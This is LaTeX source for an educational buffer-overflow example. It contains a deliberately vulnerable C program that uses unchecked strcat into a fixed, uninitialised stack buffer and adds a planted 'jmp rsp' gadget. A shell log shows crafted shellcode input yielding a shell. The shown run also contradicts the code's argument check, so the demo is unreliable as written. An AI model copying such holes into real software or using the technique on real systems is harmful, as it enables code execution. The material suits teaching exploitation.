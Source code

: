 \documentclass{article}
\begin{document}
Below \ref{lst:bof} is an example of a vulnerable program.

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Buffer overflow shellcoding example}
      ,label={lst:bof}
      ,language=C]
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* This function is a gadget typically
 * found through Return Oriented Programming (ROP)
 * in a larger binary, and it's crucial
 * for changing control flow.
 * It serves to demonstrate the general
 * concept in this simplified context.
 *
 * In a real-life scenario,
 * it would be necessary to find this gadget
 * or pivot the stack in a different manner.
 */
extern void __attribute__((naked)) helper_gadget() {
        __asm(".intel_syntax noprefix\n"
              "jmp rsp\n"
              ".att_syntax\n");
}

/* Example of a vulnerable function in which
 * the size of the concatenated strings is not
 * checked to be less than the size of the
 * buffer in which they are concatenated.
 *
 * This would most likely never cause issues
 * because names are almost never this long, but
 * it is easy for an attacker to exploit this.
 */
void say_hi(char* name) {
        char local_buffer[0x100];

        strcat(local_buffer, "Hi ");
        strcat(local_buffer, name);
        strcat(local_buffer, "!");

        puts(local_buffer);

        return;
}

int main(int argc, char** argv) {
        if (argc != 2) {
                fprintf(stderr, "usage: say_hi <name>\n");
                return 1;
        }

        say_hi(argv[1]);

        return 0;
}
\end{lstlisting}
\end{minipage}

Running the program with my name gives an expected output:
\begin{lstlisting}[caption={Non-malicious input}
      ,label={lst:bof_valid}
      ,language=bash]
$ ./say_hi Liviu
Hi Liviu!
\end{lstlisting}

But running the program with the following malicious crafted input we get
a vastly different result:

\begin{lstlisting}[caption={Malicious input}
      ,label={lst:bof_malicious}
      ,language=bash]
# The `cat` command is used just to keep
# the stdin of the `say_hi` program open
$ cat shellcode_malicious_input.bin - | ./say_hi
aaaa
Hi !
ls
Makefile  say_hi  shellcode_malicious_input.bin
\end{lstlisting}
\end{document}
